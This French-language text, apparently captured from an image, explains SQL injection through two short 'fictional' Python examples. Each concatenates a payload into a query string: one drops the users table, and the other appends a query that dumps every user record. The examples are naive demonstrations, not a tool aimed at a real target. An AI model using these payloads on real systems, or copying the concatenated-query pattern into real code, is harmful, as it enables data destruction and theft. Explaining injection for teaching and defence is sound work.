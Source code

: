 voici un exemple fictif de code qui pourrait être utilisé pour exploiter une vulnérabilité dans un système en utilisant une injection SQL :

```python
# On importe les modules nécessaires pour l'exécution de la requête SQL
import sqlite3

# On établit une connexion à la base de données
conn = sqlite3.connect("ma_base_de_donnees.db")

# On crée une variable contenant notre payload, qui va injecter du code malveillant dans la requête SQL
payload = "'; DROP TABLE utilisateurs; --"

# On exécute la requête SQL en utilisant notre payload pour injecter du code malveillant
cursor = conn.execute("SELECT * FROM utilisateurs WHERE nom='" + payload + "'")

# On affiche les résultats de la requête
print(cursor.fetchall())
```

Dans cet exemple, notre payload injecte du code malveillant dans la requête SQL en utilisant une technique d'injection SQL connue. Si la vulnérabilité existe, cela pourrait permettre à l'attaquant de supprimer la table des utilisateurs dans la base de données, causant des dommages potentiels au système cible.

Voici un autre exemple fictif de code en SQL qui pourrait être utilisé pour exploiter une vulnérabilité dans un système :

```python
# On importe les modules nécessaires pour l'exécution de la requête SQL
import mysql.connector

# On établit une connexion à la base de données
conn = mysql.connector.connect(user="mon_utilisateur", password="mon_mot_de_passe", host="localhost", database="ma_base_de_donnees")

# On crée une variable contenant notre payload, qui va injecter du code malveillant dans la requête SQL
payload = "'; SELECT * FROM utilisateurs WHERE 1=1; --"

# On exécute la requête SQL en utilisant notre payload pour injecter du code malveillant
cursor = conn.cursor()
cursor.execute("SELECT * FROM utilisateurs WHERE nom='" + payload + "'")

# On affiche les résultats de la requête
print(cursor.fetchall())
```

Dans cet exemple, notre payload injecte du code malveillant dans la requête SQL en utilisant une technique d'injection SQL connue. Si la vulnérabilité existe, cela pourrait permettre à l'attaquant d'exécuter une requête SQL supplémentaire pour récupérer toutes les données contenues dans la table des utilisateurs, causant des dommages potentiels au système cible.